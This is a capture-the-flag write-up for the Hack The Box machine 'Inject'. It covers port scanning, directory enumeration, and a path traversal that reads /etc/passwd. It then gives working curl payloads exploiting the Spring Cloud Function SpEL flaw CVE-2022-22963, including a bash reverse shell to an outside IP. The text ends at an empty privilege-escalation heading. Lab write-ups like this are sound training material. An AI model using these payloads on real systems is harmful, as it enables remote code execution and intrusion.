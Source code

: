 # Inject Writeup - by Thammanant Thamtaranon  
- Analytics is an easy Linux-based machine hosted on Hack The Box.

## Reconnaissance  
- I started with a full TCP port scan including service/version detection and OS fingerprinting:  
  `nmap -A -T4 -p- 10.10.11.204`  
![Nmap_Scan](Nmap_Scan.png)  
- The scan showed two open ports:  
  - 22 (SSH)  
  - 8080 (HTTP)  

## Scanning & Enumeration  
- I ran a directory brute-force using `dirsearch`:  
  `dirsearch -u 10.10.11.204:8080`  
![Dirsearch_Scan](Dirsearch_Scan.png)  
- We found the `/upload` path, when upload the file there will be a link to view the uploaded image. The path is `show_image?img=`.
  
## Exploitation  
- I try path traversal with `/show_image?img=../../../../../../../etc/passwd`.
![PASSWD](PASSWD.png) 
- We then confirm user phil.
- We then try to read config file to determine what language or framework is being used. We found pom.xml which indicated java and spring boot.
![POM](POM.png)
- We then search in the internet for these CVE and found **CVE-2022-22963**.
- The **CVE-2022-22963** is expression Language Injection (SpEL), where Spring Cloud Function had improper input validation in its "Routing Function" feature.
- So to test if it is vulnerable we navigate to `http://10.10.11.204:8080/functionRouter`. This show us HTTP Status 500 – Internal Server Error, which indicate that it is indeed vulnerable.
- We then test with this command
```
curl -X POST http://10.10.11.204:8080/functionRouter \
-H "spring.cloud.function.routing-expression: new java.lang.ProcessBuilder(\"/bin/sh\",\"-c\",\"touch /tmp/test\").start()" \
-d "test"
```
- Then we use the path traversal exploit to read the `/tmp/test` file to confirm our exploit.
![POC](POC.png)
- We the run the command
```
curl -X POST http://10.10.11.204:8080/functionRouter \
-H "spring.cloud.function.routing-expression: new java.lang.ProcessBuilder('/bin/bash','-c','bash -i >& /dev/tcp/10.10.16.11/4444 0>&1').start()" \
-d "test"
```
- We then get a shell as user frank.
![Frank](Frank.png)

## Privilege Escalation  
